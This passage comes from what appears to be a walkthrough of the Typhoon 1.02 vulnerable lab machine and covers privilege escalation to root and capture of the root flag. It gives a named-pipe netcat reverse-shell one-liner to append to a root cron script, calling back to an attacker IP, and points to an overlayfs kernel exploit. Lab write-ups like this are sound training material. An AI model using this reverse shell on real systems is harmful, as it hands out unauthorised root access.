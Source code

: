 ## Privilege Escalation

Once you have obtained a low-privilege shell, the next step is to escalate privilege to `root`. Again, I'll take the path of least resistance.

During your enumeration, you'll notice a strange-looking script at `/tab/script.sh`.

<a class="image-popup">
![bb69e867.png](/assets/images/posts/typhoon-1.02-walkthrough/bb69e867.png)
</a>

If I had to guess, I would say the script is ran as a `cron` job by `root`. That's our ticket to a `root` shell. We can probably use `nc` to send a reverse shell back to us. However, the `nc` on the machine doesn't have `-e` option.

No problem. We can still do something like this.

On one hand, open a `nc` listener at your attacking machine. On the other hand, append the following command to `/tab/script.sh`:

`echo 'rm -rf /tmp/p; mknod /tmp/p p; /bin/bash 0</tmp/p | nc 192.168.30.128 1234 >/tmp/p' >> /tab/script.sh`

You'll see the `root` shell in a bit at the `nc` listener like so.

<a class="image-popup">
![f7cd10a3.png](/assets/images/posts/typhoon-1.02-walkthrough/f7cd10a3.png)
</a>

Again, there are other ways to get `root`:

+ `admin` can sudo as `root` with `sudo -s`
+ Linux Kernel 3.13.0 < 3.19 - 'overlayfs' Local Privilege Escalation as per EDB-ID [37292](https://www.exploit-db.com/exploits/37292)

### Root Flag

The last step is to get the `root` flag as proof that you have `root`ed the machine.

<a class="image-popup">
![a557c5a6.png](/assets/images/posts/typhoon-1.02-walkthrough/a557c5a6.png)
</a>
